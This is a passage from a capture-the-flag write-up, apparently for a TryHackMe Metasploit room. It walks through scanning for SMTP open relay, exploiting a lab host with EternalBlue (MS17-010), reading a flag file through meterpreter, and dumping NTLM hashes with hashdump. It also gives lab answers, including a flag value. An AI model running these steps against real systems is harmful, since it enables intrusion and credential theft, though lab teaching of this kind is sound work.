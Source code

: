 * Search for SMTP open relay module by giving command `search smtp open relay`

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/adb811ef-5c40-493f-acf5-7d51c4feb877)

* select the `auxiliary/scanner/smtp/smtp_relay` module by using `use` command.
* give `info` command for the details of the module.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9cdc4e38-deb5-4d67-a00f-51cc58059b56)

There we got the name of who provided this module.

        Campbell Murray

## Task 5: Exploitation 

### 1. Exploit one of the critical vulnerabilities on the target VM?
        
* Use `windows/smb/ms17_010_eternalblue` module to find out vulnerabilities.
* Give `rhosts` of your ip. In this case, `set rhosts 10.10.201.11` 
* Give `exploit` command to run this exploit.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/c1e71dc1-6ca5-4a70-b8a5-989ed9d6a8bf)

As we can see in above image, it showed `Host is likely vulnerable to MS17-010!` of `EternalBlue` module.

        MS17-010

### 2. What is the content of the flag.txt file?
        
* From previous task, we already expolited using `EternalBlue` module. After the exploit gets executed, it will go to `meterpreter` 
* As we have to look for a file flag.txt, we will use `search` command.
* `search -f flag.txt` command is executed.
* `-f` flag refers that we're giving a file name.
* After executing the command, we will get the location of the file.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/20644377-633d-4d55-b32f-24af544cfb11)

* Display the contents of file by using `cat` command.
* `cat c:/Users/Jon/Documents/flag.txt`
* Make sure that we use backward slash instead of forward slash which is shown in output.

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/96953e1f-31a3-4290-9400-30eb02b31c43)

        THM-5455554845

### 3. What is the NTLM hash of the password of the user "pirate"?
        
* Once we gain system privileges, we can quickly figure out the login password hashes from the compromised system by using the `hashdump` command
* In hashdump command output, see the password hash of the user `private`
* Look at the 4th column for the password hash.
 